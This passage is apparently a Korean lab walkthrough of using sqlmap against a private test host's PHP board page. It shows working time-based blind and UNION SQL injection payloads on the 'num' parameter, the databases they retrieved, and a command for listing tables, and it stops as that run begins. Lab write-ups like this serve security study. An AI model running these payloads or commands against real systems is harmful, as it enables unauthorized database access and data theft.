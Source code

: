 ```
[14:40:08] [INFO] resuming back-end DBMS 'mysql' 
[14:40:08] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=66tb0unttkr...pu0qaj57a1'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: num (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: num=1 AND (SELECT 1937 FROM (SELECT(SLEEP(5)))mvSW)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: num=-7367 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b7a7a71,0x4d5a4a437959714c74746f48517664794f6f4c734e7866545567667464654e726d5a5542464e5977,0x7178717071),NULL,NULL,NULL-- -
---
[14:40:10] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[14:40:10] [INFO] fetching database names
[14:40:10] [WARNING] reflective value(s) found and filtering out
[14:40:10] [INFO] retrieved: 'information_schema'
[14:40:10] [INFO] retrieved: 'WebTest'
[14:40:10] [INFO] retrieved: 'mysql'
[14:40:10] [INFO] retrieved: 'test'
available databases [4]:                                                                      
[*] information_schema
[*] mysql
[*] test
[*] WebTest

[14:40:10] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.10.20'                                                                                     

[*] ending @ 14:40:10 /2020-10-22/


```



##### Table 명 확인

root@kali-04:~# sqlmap -u "http://172.16.10.20/board/board_view.php?num=1" -p "num" -D "WebTest" --tables

```
 root@kali-04:~# sqlmap -u "http://172.16.10.20/board/board_view.php?num=1" -p "num" -D "WebTest" --tables
        ___
       __H__                                                                                   
 ___ ___[,]_____ ___ ___  {1.4.9#stable}                                                       
|_ -| . ["]     | .'| . |                                                                      
|___|_  [)]_|_|_|__,|  _|                                                                      
      |_|V...       |_|   http://sqlmap.org                                                    

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:40:38 /2020-10-22/

[14:40:38] [INFO] resuming back-end DBMS 'mysql' 
[14:40:38] [INFO] testing connection to the target URL
```